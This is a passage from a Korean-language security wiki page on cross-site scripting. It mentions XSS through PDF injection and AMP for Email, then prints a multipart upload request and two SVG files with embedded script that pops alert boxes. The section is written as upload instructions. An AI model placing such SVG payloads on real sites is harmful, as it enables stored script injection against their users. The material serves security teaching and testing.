 {% content-ref url="server-side-xss-dynamic-pdf.md" %}
[server-side-xss-dynamic-pdf.md](server-side-xss-dynamic-pdf.md)
{% endcontent-ref %}

HTML 태그를 삽입할 수 없는 경우 **PDF 데이터를 삽입**해 보는 것도 좋을 수 있습니다:

{% content-ref url="pdf-injection.md" %}
[pdf-injection.md](pdf-injection.md)
{% endcontent-ref %}

### Amp4Email에서의 XSS

AMP는 모바일 기기에서 웹 페이지 성능을 가속화하기 위해 고안되었으며, 속도와 보안에 중점을 둔 기능을 보장하기 위해 JavaScript가 보완된 HTML 태그를 포함합니다. 다양한 기능을 위한 구성 요소 범위를 지원하며, [AMP 구성 요소](https://amp.dev/documentation/components/?format=websites)를 통해 액세스할 수 있습니다.

[**AMP for Email**](https://amp.dev/documentation/guides-and-tutorials/learn/email-spec/amp-email-format/) 형식은 특정 AMP 구성 요소를 이메일로 확장하여 수신자가 이메일 내에서 콘텐츠와 직접 상호 작용할 수 있도록 합니다.

예: [**Gmail의 Amp4Email에서의 XSS 작성**](https://adico.me/post/xss-in-gmail-s-amp4email).

### 파일 업로드(XSS) (svg)

다음과 같은 파일을 이미지로 업로드하세요 ([http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):
```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert(1);
</script>
</svg>
-----------------------------232181429808--
```

```markup
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">alert("XSS")</script>
</svg>
```

```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```
